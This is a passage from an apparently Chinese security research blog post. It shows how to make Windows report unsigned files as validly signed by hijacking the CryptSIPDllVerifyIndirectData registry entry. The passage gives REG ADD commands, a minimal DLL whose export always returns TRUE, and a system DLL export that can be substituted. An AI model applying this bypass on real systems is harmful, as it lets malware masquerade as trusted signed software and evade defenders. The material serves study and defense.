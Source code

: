 ```
signtool.exe verify /v si.exe
```

验证通过

通过sigcheck.exe验证：

```
sigcheck.exe -q si.exe
```

验证通过，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-10/3-4.png)

重启explorer.exe，查看文件属性，签名状态，显示签名生效，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-10-10/3-5.png)

更进一步，**dll一定要固定格式吗？**

于是进行接下来的测试：

导出函数名为test1，完整代码如下：


```
BOOL APIENTRY DllMain( HANDLE hModule, 
                       DWORD  ul_reason_for_call, 
                       LPVOID lpReserved
					 )
{
    return TRUE;
}
BOOL WINAPI test1() 
{
	return TRUE;
}
```

修改对应注册表键值：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "Dll" /t REG_SZ /d "C:\test\signtest.dll" /f

REG ADD "HKLM\SOFTWARE\Microsoft\Cryptography\OID\EncodingType 0\CryptSIPDllVerifyIndirectData\{C689AAB8-8E78-11D0-8C47-00C04FC295EE}" /v "FuncName" /t REG_SZ /d "test1" /f
```

测试仍能够绕过验证

这就说明，只要dll的导出函数返回TRUE，就能够绕过验证

所以，可以查找系统默认的dll，找到一个导出函数返回true即可（当然，此处可供利用的导出函数有很多）

例如`"C:\Windows\System32\ntdll.dll" `

导出函数：`DbgUiContinue`
